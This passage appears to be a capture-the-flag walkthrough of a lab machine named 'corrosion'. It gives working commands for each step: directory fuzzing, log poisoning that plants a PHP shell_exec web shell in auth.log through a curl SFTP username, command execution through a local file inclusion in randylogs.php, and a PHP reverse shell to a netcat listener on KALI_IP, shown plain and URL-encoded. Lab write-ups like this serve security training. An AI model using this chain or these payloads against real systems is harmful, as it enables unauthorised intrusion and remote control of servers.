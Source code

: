 ```bash
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

file                    [Status: 200, Size: 2832, Words: 38, Lines: 49, Duration: 3ms]
:: Progress: [4614/4614] :: Job [1/1] :: 80 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

**Send a bit of PHP shell\_exec code to the auth.log for [[Log Poisoning]]. Use curl to submit the code as the SSH username for an SFTP login. Needed to use curl SFTP instead of the built in SSH client in kali because the client was not allowing special characters as a username:**

```bash
└─$ curl -si -u '<?php echo shell_exec($_GET['cmd']);?>' sftp://192.168.5.119/test -k

Enter host password for user '<?php echo shell_exec($_GET[cmd])':
```

>[!note] 
>The *test* folder part of  `sftp://192.168.5.119/test`, is just a placeholder for SFTP, you can use anything


**We can now issue shell commands using curl as follows (note the command output is shown where the SSH username would be shown in the auth log):**

```bash
└─$ curl -si http://192.168.5.119/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=id

...

Aug  7 19:19:20 corrosion sshd[3498]: Failed password for invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data) from 192.168.9.2 port 57747 ssh2

Aug  7 19:19:22 corrosion sshd[3498]: Connection closed by invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Setup *netcat* listening on kali:**

```bash
└─$ nc -nvlp 4242
```

**[[PHP Reverse Shells#^cba9ae|PHP Reverse Shell]] that we will use, change *KALI\_IP*:**

> php -r '$sock=fsockopen("KALI\_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");'

**Encode command at [http://www.urlencoder.org](http://www.urlencoder.org/?ref=rootandbeer.com), example:**

> php%20-r%20%27%24sock%3Dfsockopen%28%22KALI\_IP%22%2C4242%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
